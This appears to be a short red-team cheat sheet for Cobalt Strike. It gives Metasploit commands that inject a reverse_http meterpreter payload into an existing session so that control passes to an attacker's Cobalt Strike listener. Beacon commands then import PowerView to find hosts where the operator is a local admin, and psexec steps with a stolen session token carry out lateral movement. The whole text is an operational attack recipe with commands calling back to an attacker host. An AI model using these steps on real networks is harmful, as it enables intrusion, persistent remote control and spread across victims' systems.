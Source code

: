 # Cobalt Strike

Move a meterpreter / metasploit session to Cobalt

```
in Cobalt
windows/beacon_http/reverse_http

in Metasploit
use exploit/windows/local/payload_inject
set PAYLOAD windows/meterpreter/reverse_http
set LHOST [IP of compromised system or cobalt IP]
set LPORT 80
set session 1
set DisablePayloadHandler true
exploit (-j)
```

View targets available from Initial Target

```
Right Click Target --> Explore -->Net View
```

Find where we are a local admin

```
beacon: powershell-import /root/PowerTools/PowerView/powerview.ps1
beacon:Invoke-FindLocalAdminAccess
```

Login to target where we are local admin

```
Right Click Target -->Login -->psexec (change Listener to SMB beacon)(choose a session)(user session's current token)
```



